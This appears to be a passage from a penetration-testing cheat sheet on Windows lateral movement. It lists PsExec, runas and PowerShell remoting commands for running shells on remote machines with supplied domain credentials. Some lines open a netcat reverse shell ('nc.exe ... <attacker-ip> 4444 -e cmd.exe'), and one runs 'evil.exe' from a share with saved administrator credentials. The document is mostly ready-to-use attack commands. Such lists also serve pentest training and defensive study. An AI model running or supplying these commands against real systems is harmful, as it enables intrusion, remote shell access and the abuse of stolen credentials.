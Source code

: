 ```
# Connect to remote system
PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe
# switch admin user to NT Authority/System on the remote system 
PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe -s 
# switch from local administrato to NT SYSTEM locally
PsExec.exe -i -s cmd.exe
```
## Runas
 ```
runas /netonly /user:DOMAIN\username "cmd.exe"
runas /noprofil /netonly /user:DOMAIN\username cmd.exe
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"

C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"

$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```
## Powershell
Remote code execution with PS Credentials:
```
$SecPassword = ConvertTo-SecureString '<Wtver>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\<WtverUser>', $SecPassword)
Invoke-Command -ComputerName <WtverMachine> -Credential $Cred -ScriptBlock {whoami}
```
Powershell remoting:
```
#Enable Powershell Remoting on current Machine (Needs Admin Access)
Enable-PSRemoting
#Entering or Starting a new PSSession (Needs Admin Access)
$sess = New-PSSession -NAME <NameOfSession> -ComputerName <NameOfComputer>
Enter-PSSession -Sessions <NameOfSession> or -ComputerName <NameOfComputer>
[DC01]: PS>
```
Remote stateful commands:
```
# Create a new session
$sess = New-PSSession -ComputerName <NameOfComputer>
# Execute command
Invoke-Command -ComputerName <NameOfComputer> -ScriptBlock {whoami}
# Execute script
Invoke-Command -computername <NameOfComputer> -filePath c:\Scripts\Task.ps1
```
If problems occurs specify the session:
```
# Execute command on the session and stock the result
Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}
# Check the result of the command to confirm we have an interactive session
Invoke-Command -Session $sess -ScriptBlock {$ps}
```
Import a powershell module and execute its functions remotely:
``` 
#Execute the command and start a session
Invoke-Command -Credential $cred -ComputerName <NameOfComputer> -FilePath c:\FilePath\file.ps1 -Session $sess 

#Interact with the session
Enter-PSSession -Session $sess
```